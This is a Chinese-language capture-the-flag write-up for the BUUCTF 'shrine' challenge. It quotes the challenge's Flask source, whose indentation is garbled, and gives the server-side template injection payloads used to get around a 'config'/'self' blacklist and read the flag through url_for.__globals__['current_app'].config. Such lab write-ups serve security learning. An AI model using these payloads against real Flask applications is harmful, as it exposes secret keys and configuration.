 # T22 shrine

> 题目：BUUCTF [WesternCTF2018]shrine

__0x00 审题__

打开题目，得到一串代码，原文是一长条，稍微改了一下：

```python
import flask 
import os 
app = flask.Flask(__name__) 
app.config['FLAG'] = os.environ.pop('FLAG') #flag所在地
@app.route('/') 
def index(): 
	return open(__file__).read() #读文件内容


@app.route('/shrine/') 
def shrine(shrine): 

	def safe_jinja(s): #jinja模板
  s = s.replace('(', '').replace(')', '') 
	blacklist = ['config', 'self'] #黑名单
  return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s
	return flask.render_template_string(safe_jinja(shrine)) 

if __name__ == '__main__': app.run(debug=True) 


```

妄图通过我少的可怜的代码知识感悟此题真意

flask，感觉存在ssti,访问/shrine/{{1*2}},返回2，可知假设成立

__0x01 解题__

1. 观察源代码

> 此题存在黑名单绕过，所以就无法使用config

* 关于如何绕过黑名单，相关的python内置函数

> url_for  flask提供的全局函数，存在__globals__键
> > __ ___globals___ __ //返回一个由当前函数可以访问到的变量，方法，模块组成的字典，不包含该函数内声明的局部变量。

2. url中输入/shrine/{{url_for.__ globals__}}

然后注意其中的：'current_app': <Flask 'app'>，flag应该在其中

3. /shrine/{{url_for.__ globals__['current_app'].config}}

得到flag


